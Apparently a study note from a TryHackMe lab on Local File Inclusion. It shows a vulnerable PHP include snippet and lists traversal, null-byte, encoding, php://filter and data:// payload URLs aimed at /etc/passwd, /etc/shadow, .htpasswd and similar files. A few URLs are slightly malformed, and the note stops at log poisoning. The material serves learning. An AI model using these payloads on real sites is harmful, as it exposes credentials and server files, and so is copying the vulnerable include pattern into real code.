 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

`https://website-example.com/?page=filename.php`

`https://website-example.com/?page=../../../../etc/test.txt`

`http://www.example_target_website.com/download.php?file=document.html`

`http://www.example_target_website.com/download.php?file=../../../../etc/passwd`

`https://example-vulnerable-website.com/?module=contact.php`

`https://example-vulnerable-website.com/?module=/etc/passwd`

`https://example-vulnerable-website.com/?module=uploads/image123.gif`

`https://example-vulnerable-website.com/?helpfile=login.txt`

`https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd`

`https://example-vulnerable-website.com/?download=brochure.pdf`

`https://example-vulnerable-website.com/?download=../include/connection.php`

## LFI

An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:

   `include`
   
   `require`
   
   `include_once`
   
   `require_once`

The following is an example of PHP code that is vulnerable to LFI.

<?PHP
	include($_GET["file"]);

?>

`/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdlin`

`http://example.thm.labs/page.php?file=/etc/passwd 
http://example.thm.labs/page.php?file=../../../../../../etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd`

### The PHP filter wrapper is used in LFI to read the actual PHP page content.
	we can use the PHP filter to display the content of PHP files in other encoding formats such as `base64` or `ROT13`.

`http://example.thm.labs/page.php?file=php://filter/resource=/etc/passwd`

### We can read the index.php file using a PHP filter; we get errors because the web server tries to execute the PHP code. To avoid this, we can use a PHP filter while base64 or ROT13 encoding the output as follows:

`http://example.thm.labs/page.php?file=filter/read=string.rot13/resource=/etc/passwd 

http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd'

###  eg. ``echo "AoC3 is fun!" | base64 QW9DMyBpcyBmdW4hCg==`
        `echo "QW9DMyBpcyBmdW4hCg==" | base64 --decode AoC3 is fun!`

### Now we can include our base64 data into the vulnerable page as follows,
    `http://example.thm.labs/page.php?file=data://text/plain;base64,QW9DMyBpcyBmdW4hCg==`

### we provide a vulnerable web application that logs users' requests into a log file to which the webserver user has access. Once we log into the web application, we can visit the log page at 
`https://LAB_WEB_URL.p.thmlabs.com/logs.php.`            
            

